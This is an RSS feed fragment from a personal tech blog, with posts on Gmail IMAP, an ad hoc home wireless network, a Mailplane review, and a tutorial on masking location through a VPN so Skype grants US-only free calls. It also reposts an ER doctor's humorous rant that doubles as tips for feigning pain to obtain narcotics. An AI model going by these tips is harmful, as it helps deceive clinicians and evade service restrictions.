			<wfw:commentRss>http://www.semanticoverload.com/2008/04/21/making-your-presentations-portable/feed/</wfw:commentRss>
		<slash:comments>5</slash:comments>
		</item>
		<item>
		<title>Gmail with IMAP &#8212; First Impressions</title>
		<link>http://www.semanticoverload.com/2007/11/04/gmail-with-imap-first-impressions/</link>
		<comments>http://www.semanticoverload.com/2007/11/04/gmail-with-imap-first-impressions/#comments</comments>
		<pubDate>Mon, 05 Nov 2007 04:56:57 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[review]]></category>
		<category><![CDATA[tutorial]]></category>
		<category><![CDATA[gmail]]></category>
		<category><![CDATA[imap]]></category>

		<guid isPermaLink="false">http://semanticoverload.gaddarinc.com/?p=132</guid>
		<description><![CDATA[Finally, over a week and a half after the initial announcement, IMAP was finally enabled on all my Gmail accounts. Until now I used POP to access my emails from gmail, and had to use the &#8216;recent:&#8217; option to be able to access my emails from multiple locations. With IMAP, thankfully, that will change soon. [...]]]></description>
				<content:encoded><![CDATA[<p>Finally, over a week and a half after the <a href="http://googleblog.blogspot.com/2007/10/free-imap-for-gmail.html">initial announcement</a>, IMAP was finally enabled on all my <a href="http://www.gmail.com">Gmail</a> accounts. Until now I used POP to access my emails from gmail, and had to use the <a href="http://mail.google.com/support/bin/answer.py?hl=en&#038;answer=47948">&#8216;recent:&#8217; option</a> to be able to access my emails from multiple locations. With IMAP, thankfully, that will change soon.</p>
<p>A quick intro to <a href="http://www.imap.org/">IMAP</a>. <a href="http://blogs.pcworld.com/staffblog/archives/005772.html">As described by Tom Spring from PC World</a>:</p>
<blockquote><p>
<a href="http://www.imap.org/">IMAP</a> is geek speak for Internet Message Access Protocol. &#8230;.<br />
&#8230; with IMAP any changes (sorting, deleting, reading, or otherwise) are reflected across all Gmail interfaces &#8211; be it using Outlook Express, your iPhone, or Web-based Gmail. For example if you create a folder and sort messages into it using your desktop Outlook Express client those changes show up on Web-based Gmail.
 </p></blockquote>
<p>IMAP is a boon for people like me, who check their emails from multiple locations. So I decided to give IMAP support on Gmail a spin, and here&#8217;s what I came up with:</p>
<p>For starts Gmail has done a remarkable job of supporting IMAP. I can understand the technical difficulty in being able to support IMAP on Gmail. Think about it: Gmail moved away from conventional folder based email organization to offer what is essentially a tag-based (label-based) organization of email (although their tagging interface is too cumbersome in my opinion). Given that IMAP is a folder-based email access protocol, reconciling the two is not an easy task. But Google has done a good job of it this time around.</p>
<p>For starts, after you <a href="http://mail.google.com/support/bin/answer.py?answer=77695">enable IMAP</a>, and <a href="http://mail.google.com/support/bin/answer.py?answer=75726">configure your mail client</a> there are changes that you will notice in the web-based Gmail interface.</p>
<ul>
<li>All the folders that you create using your email client will now appear as labels in your web interface.</li>
<li>Certain labels like Trash, or Chats are reserved by gmail. If you try to create a folder by that name, then the folder will appear as &#8216;[imap]/foldername&#8217;</li>
<li>If you have any label of form &#8216;text1/text2&#8242;, they will now appear as folder &#8216;text2&#8242; being a subfolder of folder &#8216;text1&#8242;. So If you have any labels of the form &#8216;family/friend&#8217;, or &#8216;work/spam&#8217;, consider renaming them without a &#8216;/&#8217; before enabling IMAP.</li>
</ul>
<p>So how did tag-based Gmail reconcile with folder-based IMAP?</p>
<ul>
<li>Each label appears as a separate folder in IMAP. </li>
<li>To apply multiple labels, just copy the email to multiple folders. </li>
<li>Moving an email from one folder to another will change the label on the email from the first label to the other.</li>
<li>If you move an email to a sub-folder &#8216;sub&#8217; within a main folder &#8216;main&#8217;, on the web interface, it will show up as being labeled &#8216;main/sub&#8217;.</li>
<li>If you configure you mail client to sent email using gmail&#8217;s smtp server, then every copy of the email is stoed in the &#8216;[Gmail]/Sent Mail&#8217; folder.</li>
</ul>
<p><a href="http://mail.google.com/support/bin/answer.py?answer=77657">Here</a> are the set of IMAP actions and their corresponding web based Gmail actions.</p>
<p>Spam, however, is handled differently. To mark a message as spam, just move it to the &#8216;[gmail]/spam&#8217; folder in the IMAP interface. Simply marking the email as &#8216;spam&#8217; on your mail client (like Thunderbird) will trigger the email client&#8217;s spam filters, but not Gmail&#8217;s.</p>
<h3>Drawbacks</h3>
<ul>
<li>One <del>The only</del> major drawback is that the IMAP&#8217;s default trash folder is different from Gmail&#8217;s Trash folder. There&#8217;s no easy way to fix it. <a href="http://www.techsamurai.net/entry/11/changing-thunderbirds-default-trash-folder">The only fix that I found to work for Thunderbird is here on Tech Samurai</a>. It not the most straight forward config change to make Thunderbird to GMail&#8217;s Trash folder.
</li>
<li> The bigger issue with the simulation of folder-based structure on top of tag-based structure is the following:<br />
If an email has multiple tags (labels) associated with it, then the email shows up in multiple folders on the IMAP client. &#8216;Deleting&#8217; such an email involves deleting (or moving to [Gmail]/Trash) all the virtual copies of the email from all the folders where they reside. This can be a arduous task, especially if do not know all the labels that were applied to the message to begin with (and you dont, if you are using the IMAP interface exclusively.
</li>
</ul>
<p>Overall, a really clean and neat implementation on Google&#8217;s part. Good job Google!</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2007/11/04/gmail-with-imap-first-impressions/feed/</wfw:commentRss>
		<slash:comments>0</slash:comments>
		</item>
		<item>
		<title>Home Wireless Network without a router</title>
		<link>http://www.semanticoverload.com/2007/10/25/home-wireless-network-without-a-router/</link>
		<comments>http://www.semanticoverload.com/2007/10/25/home-wireless-network-without-a-router/#comments</comments>
		<pubDate>Fri, 26 Oct 2007 00:06:58 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[networking]]></category>
		<category><![CDATA[tutorial]]></category>
		<category><![CDATA[technology]]></category>
		<category><![CDATA[wireless]]></category>

		<guid isPermaLink="false">http://semanticoverload.gaddarinc.com/?p=128</guid>
		<description><![CDATA[Digg this article. Ever wondered if you could get a short-range wireless network (for your home) without a wireless router? Well, it is possible. Here&#8217;s how: Things you need A home computer/laptop with an Ethernet port and wireless card (this computer will then double up as a wireless router). Internet connection that terminates at your [...]]]></description>
				<content:encoded><![CDATA[<p><a href="http://digg.com/hardware/How_to_set_up_a_Home_Wireless_Network_without_a_router/">Digg this article</a>.</p>
<p>Ever wondered if you could get a short-range wireless network (for your home) without a wireless router? Well, it is possible. Here&#8217;s how:</p>
<h3>Things you need</h3>
<ol>
<li>A home computer/laptop with an Ethernet port and wireless card (this computer will then double up as a wireless router).</li>
<li>Internet connection that terminates at your home computer/laptop</li>
<li>Client computers/laptops with wireless cards</li>
<li>Note that the instructions here are for Windows XP, other operating systems will probably have similar ways to accomplish what I am giving you instructions for.</li>
</ol>
<h3> Basic Idea </h3>
<p>The basic idea is to set up an ad hoc wireless network among all the computers/laptops so that each one can communicate with the other through the wireless network. Now designate one of the computers as a gateway. The gateway computer is connected to the internet its wired Ethernet connection. Get the gateway to advertise itself as the default internet gateway to all other computer in the ad-hoc network. Now all the computers will start accessing the internet through the gateway computer. Thus the wireless network is established.<br />
Something like this:<br />
</p>
<h3> Detailed Instructions</h3>
<p><span id="more-128"></span></p>
<ol>
<li><strong>Configuring your wireless card on the gateway computer</strong></li>
<p>     Your gateway computer is already connected to the internet using a wired connection. We configure the wireless card on the gateway computer as follows:</p>
<ul>
<li>Go to <strong>control panel</strong>, switch to <strong>classic view</strong> and click on <strong>Network Connections</strong>. This should take you to the list of network adapters on your system. Right-click on your <strong>wireless network connection</strong> and select <strong>Properties</strong>.</li>
<li> Click on <strong>Wireless Networks</strong> tab in the properties window, and it should look something like this:</li>
<p></p>
<li> In this tab, click on the <strong>Advanced</strong> button right next to &#8216;<em>Learn about setting up a wireless network configuration</em>&#8216;. You should see a window that looks like this:</li>
<p></p>
<li>Click on <strong>Computer-to-computer (Ad Hoc) networks only</strong>, and then click <strong>Close</strong>.</li>
<li>You should now be back in the <strong>Wireless Networks</strong> tab of the wireless card <strong>properties</strong> window. Click on <strong>Add</strong> button (to add a new ad hoc network). You should see a window that looks something like this:</li>
<p></p>
<li>Give you ad hoc network the name that you want. I called it &#8216;Peggy Sue&#8217; in my example. Let the <strong>Network Authentication</strong> be &#8216;<em>open</em>&#8216;. You can configure authentication later, if you want. Then, click <strong>Ok</strong>.</li>
</ul>
<li>Configuring the Wired connection on the gateway computer</li>
<p>             Now you have a ad hoc wireless network, and a connection to the internet. You have to configure them to talk to each other other so that traffic from the ad hoc wireless network can access the internet. You do so by &#8216;sharing&#8217; the internet connection as follows:</p>
<ul>
<li>Go to <strong>control panel</strong>, switch to <strong>classic view</strong> and click on <strong>Network Connections</strong>. This should take you to the list of network adapters on your system. Right-click on your <strong>local area connection</strong> and select <strong>Properties</strong>.</li>
<li>Go to the <strong>Advanced</strong> tab which looks something like this:</li>
<p></p>
<li>Check the box that says &#8216;<em>Allow other network users to connect through this computer&#8217;s internet connection</em>&#8216;. And click <strong>Ok</strong>.</li>
</ul>
<p>Now when you right-click on the <strong>wireless network connection</strong> and click on <strong>view wireless networks</strong>, you should see something like this:<br />
</p>
<li> Connecting other wireless clients to the network</li>
<p>All you now have to do is start up other computers, and connect to the ad hoc wireless network (Peggy Sue) that you just created and you should be good to browse the internet wirelessly!</p>
</ol>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2007/10/25/home-wireless-network-without-a-router/feed/</wfw:commentRss>
		<slash:comments>7</slash:comments>
		</item>
		<item>
		<title>Mailplane, reviewed</title>
		<link>http://www.semanticoverload.com/2007/08/24/mailplane-reviewed/</link>
		<comments>http://www.semanticoverload.com/2007/08/24/mailplane-reviewed/#comments</comments>
		<pubDate>Sat, 25 Aug 2007 03:59:15 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[Uncategorized]]></category>
		<category><![CDATA[email]]></category>
		<category><![CDATA[internet]]></category>
		<category><![CDATA[mac]]></category>
		<category><![CDATA[review]]></category>
		<category><![CDATA[software]]></category>
		<category><![CDATA[technology]]></category>

		<guid isPermaLink="false">http://semanticoverload.gaddarinc.com/?p=114</guid>
		<description><![CDATA[To put succinctly, Mailplane is Gmail with MAC OS X UI (Sorry, there is no windows port as of now). Its like a browser that renders gmail, and gmail alone. I have been using Mailplane for a few days now here are my first impressions. Like most MAC applications, Mailplane is ridiculously easy to install, [...]]]></description>
				<content:encoded><![CDATA[<p>To put succinctly, <a href="http://www.mailplaneapp.com/" title="Mailplane" target="_blank">Mailplane</a> is <a href="http://www.gmail.com" title="Gmail" target="_blank">Gmail</a> with MAC OS X UI (Sorry, there is no windows port as of now). Its like a browser that renders gmail, and gmail alone.</p>
<p>I have been using Mailplane for a few days now here are my first impressions.</p>
<p>Like most MAC applications, Mailplane is ridiculously easy to install, and configuration is done with just a handful keystrokes. All you really need, as far as configuration goes, is your Gmail username and password. Here are is a screenshot of Mailplane.</p>
<p></p>
<p><span id="more-114"></span></p>
<h3>Mail client style features with gmail style freedom</h3>
<p>As you can see from the screenshots, the main window is simply the gmail interface. There is nothing fancy about it. The magic is around the main window. Its the toolbars. You have outlook/thunderbird style icons that allow you to compose messages, reply (all), star, archive etc. So for people who are more comfortable with outlook/thunderbird style desktop email clients, but want the versatility and search capability or gmail, Mailplane is the perfect application for them.</p>
<p>You can also configure Mailplane to be your default email client. If gmail is your primary email, and you don&#8217;t like using email clients, then when you come across links like &lt;a href=”mailto:abc@xyz.com&gt;, then you have to highlight the link, right click (or control-click), copy email address, open new message on gmail, paste the email you copied, and so on. Its too many clicks and too painful.</p>
<p>With Mailplane as you default mail client, just click on the email link in your browser, and it automatically opens up Mailplane, takes you to the compose message window with the email already pasted in the &#8216;To:&#8217; field. All in just one click!</p>
<h3>Support for Multiple Gmail Accounts</h3>
<p>The feature I liked best about it was that it has support for multiple gmail accounts. So if you have multiple gmail accounts (most of them do), and you would like to be able to switch between them like you would switch between tabs of a browser, Mailplane is the answer to your prayers. You can configure it to handle as many gmail accounts as you want and switch between the accounts with a mouse click (actually it a double-click).</p>
<h3>Support for Google Hosted Accounts</h3>
<p>Now its not just multiple gmail accounts it supports, it also supports multiple google hosted emails as well. (If you are wondering what exactly is Google hosting check out <a href="http://www.google.com/a/" title="Google Apps" target="_blank">Google Apps</a>). One of my domain&#8217;s email is hosted by google. I have an admin email, and a user email that I like to keep separate. With traditional web based email, I could access only one account at a time. With Mailplane, I can now access both accounts simultaneously, not to mention other gmail accounts as well.</p>
<h3>Get IMAP-like behavior with Gmail</h3>
<p>I personally prefer desktop clients as email viewers and the email servers for email storage. IMAP works really well for that, but gmail (and google hosted email) does not support IMAP. With Mailapp, however, I can get IMAP like behavior with an desktop client like features and my emails are still stored at the gmail server. Its a good trade-off to make.</p>
<h3>ISP blocks traffic to google SMTP server? No problems</h3>
<p>If you configure  a desktop email client to send and receive messages from gmail (or google hosted email), then you have probably noticed the following problem: You ISP blocks all send mail requests to your google SMTP server (because ISPs want you to use their SMTP server). The issue with such restriction is that if you don&#8217;t send you email via google&#8217;s SMTP server, then the sent mail wont show up in your sent mail folder (label) on your gmail.</p>
<p>With Mailplane however, this is no longer an issue. Mailplane sends emails via HTTP (your browser), and so if you send emails via Mailplane, then they will show up on you sentmail! Problem solved.</p>
<h3>iLife and Mailplane</h3>
<p>Its biggest selling point is its iLife integration. It allows you to drag-and-drop attachment, import photographs from iPhoto, automatically optimize it for the web before attaching, etc. It also integrates well into the <a href="http://growl.info/" title="Growl Notification System" target="_blank">Growl</a> notification system which is great feature because then it pretty much does the job of a <a href="http://toolbar.google.com/gmail-helper/notifier_mac.html" title="Gmail Notifier" target="_blank">Gmail Notifier</a> without having to install a new application.</p>
<p>Additionally, integration with Growl also allows Mailplane to send notifications to you on the screen when someone IMs you on google talk. Currently, if you are on mac, then you can only use the web-based google chat, and if you don&#8217;t have your speakers on, then there is no way for you to know if someone is messaging you unless you specifically check you gmail window. With Mailplane, you will get a Growl notification on your screen if someone messages you on google chat. This, IMHO, is a much needed feature for google chat for Mac users.</p>
<p>So, yeah, Mailplane is all great and wonderful. But its not without its issues.</p>
<h3>It works only on Mac OS X Tiger or later</h3>
<p>So if you use any other operating system be it windows, linux, Mac OS X 10.3 or lower there is no Mailplane port for it, and there probably wont be</p>
<h3>Its free because its still in beta</h3>
<p>Mailplane is free for now because it is still in beta. Once its stable enough for a general release the developer(s) are planning on releasing it as a shareware with a three week evaluation period. So yeah, in the general sense its not free.</p>
<h3>It does send email notifications, but&#8230;</h3>
<p>If you have Growl installed, then email notifications are sent, but only for the currently active account on the Mailplane window. So if you receive new mail from another account that is currently not the active one, Mailplane is simply silent about it.</p>
<h3>mailto:, but as who?</h3>
<p>If Mailplane is configured as the default email client, then on clicking on any &#8216;mailto:&#8217; style link, the browser opens up Mailplane and opens a gmail compose window. However, it opens the compose window for the currently active account on Mailplane. Which means if you have two accounts on Mailplane, viz., abc@gmail.com and xyz@hostmail.com, and xyz@hostmail.com was on the active window, then if you click on a &#8216;mailto:&#8217; link, the compose window will be for the account xyz@hostmail.com. If you wanted to compose email as from abc@gmail.com, then you&#8217;d either have to do it the old fashioned way be copying the email address, opening the account abc@gmail.com, and pasting the email. Else, you have to first switch to abc@gmail.com account on Mailplane and then click on the &#8216;mailto:&#8217; link. In either case it defeats the advantage of having a one-click-to-compose feature on Mailplane.</p>
<h3>It works but its slow</h3>
<p>Compared to desktop email client, Mailplane is slow. It is slow in starting up, logging in, and in switching accounts. So if speed is your thing, then Mailplane will disappoint you.</p>
<h3>Supports keyboard shortcuts, but you&#8217;ll need to relearn them</h3>
<p>Although Mailplane has support for keyboard shortcuts (like gmail does), the keyboard shortcuts are Mac-syle and are very different from the ones that gmail has. So if you are someone used to gmail keyboard shortcuts, and likes to use keyboard shortcuts, then you&#8217;ll have to relearn them. Not my idea of time well spent.</p>
<h3>So who should use it and how?</h3>
<p>For starts, you need a Mac with OS X 10.4 or later. The following apply:</p>
<ol>
<li>If you have one gmail (or google hosted) account as your primary account, and you&#8217;d like to send emails from that account most of the time, then install Mailplane and use it as a default mail client.</li>
<li>If you have multiple gmail (or google hosted) accounts that check regularly, and you don&#8217;t like having to log in and out of your various accounts multiple times, then Mailplane is what you need.</li>
<li>If you&#8217;d like to be notified every time you received an email, then install Mailplane with Growl.</li>
<li>If you have multiple identities that you mail from, and you have configured one gmail (or google hosted) account to handle all those identities, then use Mailplane for just that account and set Mailplane as your default mail client.</li>
</ol>
<p>So if you think Mailplane is right for you and you&#8217;d like to try it out, you can sign up for beta invitation <a href="http://mailplaneapp.com/beta/request_invitation.php" title="MailPlane Beta invitation" target="_blank">here</a>, or you can leave a comment on this thread and I can send you an invite. I have just 5 invites, so the first five requests get the invite :). Remember, it works only on Mac OS X &#8216;Tiger&#8217; or later.</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2007/08/24/mailplane-reviewed/feed/</wfw:commentRss>
		<slash:comments>3</slash:comments>
		</item>
		<item>
		<title>From best of craigslist &#8212;  Advice from ER doc. to drug seekers</title>
		<link>http://www.semanticoverload.com/2007/08/15/from-best-of-craigslist-advice-from-er-doc-to-drug-seekers/</link>
		<comments>http://www.semanticoverload.com/2007/08/15/from-best-of-craigslist-advice-from-er-doc-to-drug-seekers/#comments</comments>
		<pubDate>Wed, 15 Aug 2007 20:49:16 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[Uncategorized]]></category>
		<category><![CDATA[humor]]></category>
		<category><![CDATA[internet]]></category>
		<category><![CDATA[rants]]></category>

		<guid isPermaLink="false">http://semanticoverload.gaddarinc.com/?p=108</guid>
		<description><![CDATA[Originally from Best of Craigslist Source: http://www.craigslist.org/about/best/sfo/301345524.html I simply had to share this. This is worth a thousand laughs!! Advice from an ER doctor to drug seekers Date: 2007-03-27, 9:56AM PDTOK, I am not going to lecture you about the dangers of narcotic pain medicines. We both know how addictive they are: you because you [...]]]></description>
				<content:encoded><![CDATA[<p>Originally from Best of Craigslist</p>
<p>Source: http://www.craigslist.org/about/best/sfo/301345524.html</p>
<p>I simply had to share this. This is worth a thousand laughs!!</p>
<h3>Advice from an ER doctor to drug seekers</h3>
<hr />
<p>  Date: 2007-03-27,  9:56AM PDTOK, I am not going to lecture you about the dangers of narcotic pain medicines. We both know how addictive they are: you because you know how it feels when you don&#8217;t have your vicodin, me because I&#8217;ve seen many many many people just like you. However, there are a few things I can tell you that would make us both much happier. By following a few simple rules our little clinical transaction can go more smoothly and we&#8217;ll both be happier because you get out of the ER quicker.The first rule is be nice to the nurses. They are underpaid, overworked, and have a lot more influence over your stay in the ER than you think. When you are tempted to treat them like shit because they are not the ones who write the rx, remember: I might write for you to get a shot of 2mg of dilaudid, but your behavior toward the nurses determines what percent of that dilaudid is squirted onto the floor before you get your shot.The second rule is pick a simple, non-dangerous, (non-verifiable) painful condition which doesn&#8217;t require me to do a four thousand dollar work-up in order to get you out of the ER. If you tell me that you headache started suddenly and is the &#8216;worst headache of your life&#8217; you will either end up with a spinal tap or signing out against medical advice without an rx for pain medicine. The parts of the story that you think make you sound pitiful and worthy of extra narcotics make me worry that you have a bleeding aneurysm. And while I am 99% sure its not, I&#8217;m not willing to lay my license and my families future on the line for your ass. I also don&#8217;t want to miss the poor bastard who really has a bleed, so everyone with that history gets a needle in the back. Just stick to a history of your &#8216;typical  pain that is totally the same as I usually get&#8217; and we will both be much happier.</p>
<p>The third rule (related to #2) is never rate your pain a 10/10. 10/10 means the worst pain you could possibly imagine. I&#8217;ve seen people in a 10/10 pain and you sitting there playing tetris on your cell phone are not in 10/10 pain. 10/10 pain is an open fracture dangling in the wind, a 50% body surface deep partial thickness burn, or the pain of a real cerebral aneurysm. Even when I passed a kidney stone, the worst pain I had was probably a 7. And that was when I was projectile vomiting and crying for my mother. So stick with a nice 7 or even an 8. That means to me you are hurting by you might not be lying. (See below.)</p>
<p>The fourth rule is never ever ever lie to me about who you are or your history. If you come to the ER and give us a fake name so we can&#8217;t get your old records I will assume you are a worse douchetard than you really are. More importantly though it will really really piss me the fuck off. Pissing off the guy who writes the rx you want does not work to your advantage.</p>
<p>The fifth rule is don&#8217;t assume I am an idiot. I went to medical school. That is certainly no guarantee that I am a rocket scientist I know (hell, I went to school with a few people who were a couple of french fries short of a happy meal.) However, I also got an ER residency spot which means I was in the top quarter or so of my class. This means it is a fair guess I am a reasonably smart guy. So if I read your triage note and 1) you list allergies to every non-narcotic pain medicine ever made, 2) you have a history of migraines, fibromyalgia, and lumbar disk disease, and 3) your doctor is on vacation, only has clinic on alternate Tuesdays, or is dead, I am smart enough to read that as: you are scamming for some vicodin. That in and of itself won&#8217;t necessarily mean you don&#8217;t get any pain medicine. Hell, the fucktards who list and allergy to tylenol but who can take vicodin (which contains tylenol) are at least good for a few laughs at the nurses station. However, if you give that history everyone in the ER from me to the guy who mops the floor will know you are a lying douchetard who is scamming for vicodin. (See rule # 4 about lying.)</p>
<p>The sixth and final rule is wait your fucking turn. If the nurse triages you to the waiting room but brings patients who arrived after you back to be treated first, that is because this is an EMERGENCY room and they are sicker than you are. You getting a fix of vicodin is not more important than the 6 year old with a severe asthma attack. Telling the nurse at triage that now your migraine is giving you chest pain since you have been sitting a half hour in the waiting area to try to force her into taking you back sooner is a recipe for making all of us hate you. Even if you end up coming back immediately, I will make it my mission that night to torment you. You will not get the pain medicine you want under any circumstances. And I firmly believe that if you manipulate your way to the back and make a 19 year old young woman with an ectopic pregnancy that might kill her in a few hours wait even a moment longer to be seen, I should be able to piss in a glass and make you drink it before you leave the ER.</p>
<p>So if you keep these few simple rules in mind, our interaction will go much more smoothly. I don&#8217;t really give a shit if I give 20 vicodins to a drug-seeker. Before I was burnt out in the ER I was a hippy and I would honestly rather give that to ten of you guys than make one person in real pain (unrelated to withdrawal) suffer. However, if you insist on waving a flourescent orange flag that says &#8216;I am a drug seeker&#8217; and pissing me and the nurses off with your behavior, I am less likely to give you that rx. You don&#8217;t want that. I don&#8217;t want that. So lets keep this simple, easy, and we&#8217;ll all be much happier.</p>
<p>Sincerely,<br />
Your friendly neighborhood ER doctor</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2007/08/15/from-best-of-craigslist-advice-from-er-doc-to-drug-seekers/feed/</wfw:commentRss>
		<slash:comments>0</slash:comments>
		</item>
		<item>
		<title>Call any phone in the US for free!!</title>
		<link>http://www.semanticoverload.com/2006/06/22/call-to-any-phone-in-us-for-free/</link>
		<comments>http://www.semanticoverload.com/2006/06/22/call-to-any-phone-in-us-for-free/#comments</comments>
		<pubDate>Thu, 22 Jun 2006 19:43:50 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[Uncategorized]]></category>
		<category><![CDATA[internet]]></category>
		<category><![CDATA[technology]]></category>

		<guid isPermaLink="false">http://semanticoverload.gaddarinc.com/?p=101</guid>
		<description><![CDATA[After considerable research, experimenting and testing I have finally come up with a way for people worldwide to call any phone in US for free. This has been tested from India and it works. I dont see any reason why it shouldnt work from other countries. Minimum requirements: High speed internet connection (DSL, Cable internet). [...]]]></description>
				<content:encoded><![CDATA[<p>After considerable research, experimenting and testing I have finally come up with a way for people worldwide to call any phone in US for free. This has been tested from India and it works. I dont see any reason why it shouldnt work from other countries.</p>
<p>Minimum requirements:</p>
<ol>
<li>High speed internet connection (DSL, Cable internet). I have not tested it with dial-up, and so cannot vouch for this working with dial-up.</li>
<li>A computer running XP with multimedia support and admin priviliges</li>
<li>Computer speakers and microphone</li>
<li>The tutorial below</li>
<li>20 minutes of your time</li>
</ol>
<p>Here&#8217;s a brief summary of how this works. <a href="http://www.skype.com/" target="_blank">Skype</a> is offering <a href="http://share.skype.com/sites/en/2006/05/free_calls_to_all_landlines_an.html" target="_blank">free calls to all landlines and mobile phones within US and Canada</a> till end of 2006. However, if you connect to skype from outside US and Canada, Skype will detect that the connection is not within US and so wont allow you to call for free. The workaround is to make Skype believe that you are connecting to it from the US. We use <a href="http://en.wikipedia.org/wiki/Virtual_private_network" target="_blank">VPN</a> to achieve that. <a href="http://www.iopus.com/ipig/" target="_blank">iPig</a> provides free VPN service that terminates in the US. So if you open a VPN connection to iPig and connect to Skype, Skype traces your origin to iPig&#8217;s servers and assumes that you are connecting from within US, allowing you to make free calls from your computer.</p>
<p>Here are the steps:</p>
<ol>
<li>Get a skype account and the skype instant messenger. If you dont already have one, here is how you can get it
<ol>
<li>Download the latest version of Skype from <a href="http://www.skype.com" target="_blank">www.skype.com</a></li>
<li>Install it</li>
<li>Launch the skype messenger and register a new username in the login window.</li>
<li>Log out of skype and close the application.</li>
</ol>
</li>
<li>Get an iPig account and iPig VPN client (note that iPig will NOT work with cisco VPN client, or windows XP&#8217;s built-in VPN client). If you dont have one (which is likely the case) here is how you get one
<ol>
<li>Download the the iPig client (version 1) from iPig website <a href="http://www.iopus.com/ipig/download/" target="_blank"><strong>here</strong>.</a> Make sure you download iPig Client v1.x and not v2.x. V2 does NOT support free accounts and will not work for you</li>
<li>Install the iPig client. You need to reboot your PC after the installation.</li>
<li>Reboot your PC</li>
<li><strong><a href="http://ipig.iopus.com/" target="_blank">Create a free iPig User Account</a> </strong></li>
</ol>
</li>
<li>Now we have all the software that we need to get this working. You need to first log into iPig and then into Skype (the order is important, it might not work otherwise)
<ol>
<li>Open the iPig software and enter your iPig username and password (<a href="http://www.iopus.com/ipig/images/ipig-user-account.png" target="_blank"><strong>Screenshot</strong></a>)</li>
<li>Click the &#8220;ON&#8221; button to protect all your wireless and wired communication</li>
<li>If you have a firewall software installed (e.g. Zonealarm or Norton Internet Security), you need to allow iPig outgoing and &#8220;act as a server&#8221; Internet access if your software asks. iPig needs this in order to catch and encrypt your Internet traffic (<a href="http://www.iopus.com/ipig/images/firewall-xp-sp2.png" target="_blank"><strong>Screenshot</strong></a>).</li>
<li>Open Skype and login using your Skype username and password</li>
<li>Call any phone number in the US using Skype, here are the instructions on how to call regular <a href="http://support.skype.com/index.php?_a=knowledgebase&amp;_j=questiondetails&amp;_i=20" target="_blank">phones.</a></li>
<li>Wait till the call connects and start talking :)</li>
</ol>
</li>
</ol>
<p>Hope the level of instructions are sufficient and clear enough for you to get it working. If nto just leave me a comment with a valid email address and I will respond to the comments on this blog and email you a copy as well.</p>
<p>Happy talkin&#8217;!!</p>
<p>P.S: <a href="http://digg.com/technology/Call_to_Any_Phone_in_the_US_for_Free...from_Outside_the_US">Digg it</a> if you like it</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2006/06/22/call-to-any-phone-in-us-for-free/feed/</wfw:commentRss>
		<slash:comments>21</slash:comments>
		</item>
	</channel>
</rss>
